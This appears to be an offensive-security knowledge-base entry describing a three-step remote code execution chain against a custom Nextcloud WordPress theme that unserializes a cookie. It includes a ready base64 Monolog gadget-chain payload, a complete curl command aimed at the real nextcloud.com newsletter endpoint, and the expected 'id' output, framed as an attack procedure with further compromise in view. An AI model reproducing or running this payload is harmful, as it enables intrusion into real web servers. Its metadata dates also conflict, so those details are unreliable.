

---
tags:
  - rce
  - deserialization
  - php
  - wordpress
  - nextcloud
  - monolog
  - cookie
  - gadget-chain
type: attack_chain
tools:
  - '[[tools/curl]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/curl-exploit-deserialization-rce]]'
  - '[[commands/system-id-execution]]'
platforms:
  - Web
  - Linux
complexity: medium
procedures:
  - '[[procedures/identify-vulnerable-code-in-custom-theme]]'
  - '[[procedures/craft-serialized-exploit-payload-using-monolog-gadget-chain]]'
  - '[[procedures/trigger-rce-by-sending-malicious-cookie-in-http-request]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Multi-stage attack exploiting unsafe deserialization of user-controlled cookie
  data in a custom Nextcloud WordPress theme, leading to remote code execution
  using a Monolog gadget chain.
skill_level: intermediate
impact_level: high
id: b0797cd8-ee16-4f24-983f-96fb6fe03da8
created_at: '2025-12-14T17:23:54.981Z'
updated_at: '2025-12-14T17:23:54.981Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# RCE via Unsafe Deserialization in Nextcloud WordPress Theme Cookie

Multi-stage attack chain demonstrating exploitation of unsafe deserialization in a custom Nextcloud WordPress theme, where user-controlled cookie data is unserialized without validation, enabling remote code execution via a Monolog gadget chain from the PodLove plugin.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web platform running WordPress with custom Nextcloud theme
- PHP environment with Monolog library (via PodLove plugin)
- Services: WordPress, Ninja Forms, WPML
- Ports: Standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- Public access to the target website (e.g., newsletter endpoint)
- No credentials required
- Network access to send HTTP requests

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Code
procedure: [[procedures/identify-vulnerable-code-in-custom-theme]]

**Objective**: Review source code to locate unsafe deserialization calls on user-controlled cookie data.

**Instructions**: Access the GitHub repository for the custom theme and examine the ninjaforms.php file for unserialize operations on cookies.

**Expected Output**: Identification of vulnerable lines (e.g., L114 and L431) where base64_decode and unserialize are applied to $_COOKIE['nc_form_fields'].

**Success Indicators**:
- Vulnerable unserialize calls confirmed
- Presence of exploitable libraries like Monolog noted

### Step 2: Craft Serialized Exploit Payload
procedure: [[procedures/craft-serialized-exploit-payload-using-monolog-gadget-chain]]

**Objective**: Create a base64-encoded serialized PHP object using a Monolog gadget chain to trigger RCE.

**Instructions**: Construct the payload targeting Monolog's FingersCrossedHandler to execute system commands via processors.

**Expected Output**: Base64-encoded string ready for cookie injection: TzozNzoiTW9ub2xvZ1xIYW5kbGVyXEZpbmdlcnNDcm9zc2VkSGFuZGxlciI6NDp7czoxNjoiACoAcGFzc3RocnVMZXZlbCI7aTowO3M6MTA6IgAqAGhhbmRsZXIiO3I6MTtzOjk6IgAqAGJ1ZmZlciI7YToxOntpOjA7YToyOntpOjA7czoyOiJpZCI7czo1OiJsZXZlbCI7aToxMDA7fX1zOjEzOiIAKgBwcm9jZXNzb3JzIjthOjI6e2k6MDtzOjM6InBvcyI7aToxO3M6Njoic3lzdGVtIjt9fQ==

**Success Indicators**:
- Payload serializes without errors
- Gadget chain validated for command execution

### Step 3: Trigger RCE by Sending Malicious Request
procedure: [[procedures/trigger-rce-by-sending-malicious-cookie-in-http-request]]

**Objective**: Send an HTTP GET request to the newsletter endpoint with the malicious cookie to trigger deserialization and execute the payload.

**Instructions**: Use [[commands/curl-exploit-deserialization-rce]] to issue the request with the crafted cookie:

```bash
curl -i -s -k -X $'GET' -H $'Host: nextcloud.com' -b $'nc_cookie_banner={"essentials":true,"convenience":false,"statistics":{"matomo":false},"external_media":{"youtube":false,"vimeo":false}}; wp-wpml_current_language=en; nc_form_fields=TzozNzoiTW9ub2xvZ1xIYW5kbGVyXEZpbmdlcnNDcm9zc2VkSGFuZGxlciI6NDp7czoxNjoiACoAcGFzc3RocnVMZXZlbCI7aTowO3M6MTA6IgAqAGhhbmRsZXIiO3I6MTtzOjk6IgAqAGJ1ZmZlciI7YToxOntpOjA7YToyOntpOjA7czoyOiJpZCI7czo1OiJsZXZlbCI7aToxMDA7fX1zOjEzOiIAKgBwcm9jZXNzb3JzIjthOjI6e2k6MDtzOjM6InBvcyI7aToxO3M6Njoic3lzdGVtIjt9fQ==' $'https://nextcloud.com/newsletter/'
```

This triggers [[commands/system-id-execution]] on the server.

**Expected Output**: HTTP response including output from 'id' command: uid=33(www-data) gid=33(www-data) groups=33(www-data)

**Success Indicators**:
- RCE confirmed via command output in response
- Server user (www-data) identified

## Attack Chain Summary

### Key Achievements

1. Identified deserialization vulnerability in cookie handling
2. Crafted and injected Monolog gadget chain payload
3. Achieved RCE as www-data, enabling further compromise like privilege escalation or binary tampering

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01*
